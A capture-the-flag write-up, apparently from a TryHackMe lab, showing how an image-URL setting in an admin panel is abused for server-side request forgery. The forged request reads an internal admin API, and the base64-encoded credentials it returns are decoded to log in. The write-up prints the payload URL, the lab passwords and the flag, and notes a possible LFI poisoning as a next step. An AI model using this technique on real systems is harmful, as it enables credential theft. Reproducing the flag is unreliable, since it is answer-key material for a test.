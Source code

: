 On the API page we have this :

```API
 Internal API

GET http://127.0.0.1:5000/internal-api HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
  "secretKey": "superSecretKey123",
  "confidentialInfo": "This is very confidential."
}

Get Admins API

GET http://127.0.0.1:5000/getAllAdmins101099991 HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
    "ReviewAppUsername": "admin",
    "ReviewAppPassword": "xxxxxx",
    "SysMonAppUsername": "administrator",
    "SysMonAppPassword": "xxxxxxxxx",
}
```

On the admin setting of the port 4000 we change the Banner Image to 

`http://127.0.0.1:5000/getAllAdmins101099991`

And we got this :

`data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=`

We can decode the base64 : 

![[Pasted image 20250324191309.png]]

`{"ReviewAppUsername":"admin","ReviewAppPassword":"admin@!!!","SysMonAppUsername":"administrator","SysMonAppPassword":"S$9$qk6d#**LQU"}`

So let's try to connect to the SysMonApp

![[Pasted image 20250324191439.png]]

We have the first flag.
`THM{!50_55Rf_1S_d_k3Y??!}`


When we load the `dashboard.php` we can see a possible #LFIPoisoning. 

![[Pasted image 20250324191949.png]]
